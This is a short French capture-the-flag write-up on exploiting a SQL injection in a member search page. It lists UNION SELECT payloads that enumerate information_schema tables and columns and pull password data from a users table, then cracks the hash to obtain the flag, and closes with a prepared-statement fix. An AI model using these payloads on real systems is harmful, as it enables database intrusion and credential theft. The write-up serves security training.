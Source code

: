 # exploiter faille SQL

## Exploit
sur la page /page=member nous pouvons effectuer une recherche direcement dans la base de donnee \
pour exploiter la table nous avons besoin de connaitre le nom des tables et des colonne. \
dans un premier temp on cherche le nombre de colonne avec : 1 ORDER BY X \
une fois X determine on recherche le nom de la table qui nous interesse avec : 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables \
(ajouter autant de table_schema ou table_name que X) \
ensuite il nous faut determiner les colonnes de la table : 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns \
pour finir on execute notre requete avec les informations recuperees : 1 AND 1=2 UNION SELECT Commentaire, countersign FROM users \
la base de donnees nous affiche : First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good ! \
le mot de passe est : 5ff9d0165b4f92b14994e5c685cdce28 \
decrypte : FortyTwo \
on met en minuscule puis encrypte en Sh256 pour avoir le flag. \
\
## Protection :
L'utilisation de requete preparee en back  permet d'eviter l'injection sql. \
